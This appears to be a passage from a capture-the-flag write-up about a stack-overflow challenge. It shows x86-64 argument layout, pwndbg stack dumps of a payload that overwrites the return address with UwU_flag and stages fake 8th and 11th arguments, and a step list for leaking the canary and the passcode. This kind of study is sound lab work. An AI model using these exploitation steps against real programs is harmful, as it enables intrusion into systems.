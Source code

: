 Typical memory layout on function call with more than 6 arguments:
```apache
[higher addresses]
rbp+0x30: arg11 (0xbeefdead)   
...
rbp+0x18: arg8  (0xdeadbeef)
...
rbp+0x10: arg7
rbp+0x08: Return address
rbp+0x00: Saved RBP
[lower addresses]
```
There is why we see this on after function prologue in UwU_flag. It is just that we are not doing normal function call so our `saved rbp` and `return address` are something weird

```as
10:0080│ rbp 0x7fff6d7bb2b0 ◂— 0x4141414141414141 ('AAAAAAAA')
11:0088│+008 0x7fff6d7bb2b8 ◂— 0x3131313131313131 ('11111111')
12:0090│+010 0x7fff6d7bb2c0 ◂— 0x3232323232323232 ('22222222')
13:0098│+018 0x7fff6d7bb2c8 ◂— 0xdeadbeef
14:00a0│+020 0x7fff6d7bb2d0 ◂— 0x3333333333333333 ('33333333')
15:00a8│+028 0x7fff6d7bb2d8 ◂— 0x3434343434343434 ('44444444')
16:00b0│+030 0x7fff6d7bb2e0 ◂— 0xbeefdead
```

Additional: stack right before going into UwU_flag from know_more_about_UwU
```as
pwndbg> stack 25
00:0000│ rsp 0x7fff6d7bb288 ◂— '0x55c0f80020ec\n'
01:0008│-018 0x7fff6d7bb290 ◂— 0xa636530323030 /* '0020ec\n' */
02:0010│-010 0x7fff6d7bb298 ◂— 0xd456e33494259c00
03:0018│-008 0x7fff6d7bb2a0 ◂— 0xd456e33494259c00
04:0020│ rbp 0x7fff6d7bb2a8 ◂— 0x4141414141414141 ('AAAAAAAA')
05:0028│+008 0x7fff6d7bb2b0 —▸ 0x55c0f7e00c60 (UwU_flag) ◂— push rbp
06:0030│+010 0x7fff6d7bb2b8 ◂— 0x3131313131313131 ('11111111')
07:0038│+018 0x7fff6d7bb2c0 ◂— 0x3232323232323232 ('22222222')
08:0040│+020 0x7fff6d7bb2c8 ◂— 0xdeadbeef
09:0048│+028 0x7fff6d7bb2d0 ◂— 0x3333333333333333 ('33333333')
0a:0050│+030 0x7fff6d7bb2d8 ◂— 0x3434343434343434 ('44444444')
0b:0058│+038 0x7fff6d7bb2e0 ◂— 0xbeefdead
```

Keys to overcoming the challenge:
1. the use of address and content leak
2. understanding the protection
3. address calculation 
4. understanding in memory layout changes during function calls and abnormal returns 
5. memory layout of function with arguments 

Challenge flow conclusion:
```
Calculate addresses --> know_more_about_UwU --> 
Leak canary value in UwU_main --> Overflow and overwrite return address --> know_more_about_UwU (again) --> Leak passcode --> 
jump to UwU_flag and overwrite more to prepare for 8th and 11th arguments
- entirely within one payload


--> again receive line and sendline bypassing passcode
--> wait for flag
```
